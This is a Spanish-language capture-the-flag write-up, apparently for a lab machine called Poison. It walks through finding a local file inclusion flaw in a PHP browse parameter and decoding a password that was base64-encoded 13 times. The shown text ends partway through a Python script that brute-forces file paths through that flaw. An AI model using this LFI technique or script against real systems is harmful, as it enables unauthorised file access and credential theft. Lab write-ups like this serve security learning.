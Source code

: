 ![Untitled](Poison%202c71b5109b144f36834b9ab0c630b46b/Untitled%205.png)

Vemos la versión de PHP y Apache que usa la web.

Ahora procedemos a enumerar la web a mano.

![Untitled](Poison%202c71b5109b144f36834b9ab0c630b46b/Untitled%206.png)

Si le pasamos uno de los archivos que nos sugiere nos ejecuta ese archivo .php

![Untitled](Poison%202c71b5109b144f36834b9ab0c630b46b/Untitled%207.png)

En la URL podemos ver que utiliza `/browse.pgp?file=` . Podría usar esto para listar archivos del sistema usando la vulnerabilidad web llamada LFI (Local File Inclusion).

[https://atalantago.com/lfi/#:~:text=Esta técnica consiste en incluir,archivos alojados en otros servidores](https://atalantago.com/lfi/#:~:text=Esta%20t%C3%A9cnica%20consiste%20en%20incluir,archivos%20alojados%20en%20otros%20servidores)

Pero antes el archivo listfiles.php nos muestra esta informacion.

![Untitled](Poison%202c71b5109b144f36834b9ab0c630b46b/Untitled%208.png)

Esto me hace pensar que puede haber una rchivo llamado pwdbackup.txt en esta ruta y que podemos ver su contenido.

![Untitled](Poison%202c71b5109b144f36834b9ab0c630b46b/Untitled%209.png)

Hay una contraseña encodeada 13 veces, podemos decodearla en la pagina web :

[https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

Deslizamos `From Base64` a `Recipe` 13 veces para decodearla 13 veces y vemos una contraseña:

![Untitled](Poison%202c71b5109b144f36834b9ab0c630b46b/Untitled%2010.png)

`Charix!2#4%6&8(0`

Tenemos una contraseña, pero no conocemos ningún usuario, hay que seguir enumerando el sistema.

Vamos a explotar la vulnerabilidad LFI que habíamos dicho anteriormente.
Para ello he creado una herramienta que automatiza la búsqueda de rutas en un posible LFI.

```python
#!/usr/bin/python3
from pwn import *
import pdb
 
#Variables
URL = "http://10.10.10.84/browse.php?file="
  
def def_hundler(sig, frame):
    print("[!]Saliendo...")
    sys.exit(1)
 
signal.signal(signal.SIGINT, def_hundler)
 
#Funciones
def makeRequest():
    try:
        p1 = log.progress("Iniciando Fuerza Bruta de directorios")
        with open('diccionario.txt', encoding='utf8') as f:
            for line in f:
                p1.status("Probando con la ruta %s" % line.strip())
                r = requests.get(URL+line.strip())
#               pdb.set_trace()
                if "Failed opening" in r.text:
                    pass
                else:
```